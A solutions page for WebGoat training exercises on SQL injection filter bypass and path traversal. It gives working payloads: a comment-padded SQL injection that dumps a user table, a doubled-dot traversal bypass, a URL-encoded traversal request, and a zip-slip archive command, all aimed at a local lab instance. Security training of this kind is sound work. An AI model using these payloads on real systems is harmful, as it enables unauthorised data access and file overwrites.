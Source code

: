 ## Solutions Mitigation
---

### WebGoat  SQL (Mitigation) - Solution for exercise 9:

Here the backend server is removing all spaces. In order to bypass this, we can use multiline comments to replace the spaces:

````title="Replace spaces with comments"
'/*sp*/or/*sp*/'1'='1';select/*sp*/*/*sp*/from/*sp*/user_system_data;--
````

---

## Solutions Path Traversal
---

### WebGoat  SQL (Path Traversal) - Solution for exercise 3:

Here the app is replacing occurrences of "../" to prevent "dot-dot-slash" or path traversal. In the following example, the middle is replaced by the app leaving the path traversal nonetheless:

````title="Full Name:"
....//test
````

### WebGoat  SQL (Path Traversal) - Solution for exercise 4:

- Open *Manual Request Editor* using OWASP ZAP.   
- In the request body change:
````
filename="../white-bookshelf.jpg"
````

### WebGoat  SQL (Path Traversal) - Solution for exercise 5:

Open OWASP ZAP and find the GET request that is being sent when the 'Show random cat picture' button is pressed. Modify this request and resend it using the *Manual Request Editor*. Found the location by first adding just `%2e%2e%2f` to the GET request and getting 404 error message with current directory. There is a URL encoding tool in ZAP.

````title="GET Request"
GET http://localhost:9000/WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2fpath-traversal-secret
````

### WebGoat  SQL (Path Traversal) - Solution for exercise 7:

````bash title="Terminal"
cd /tmp/webgoat125something
cp /location-of-some/pic.jpg /home/user/.webgoat/PathTraversal/webgoat/webgoat.jpg
zip goat.zip ../../home/user/.webgoat/PathTraversal/webgoat/webgoat.jpg
````
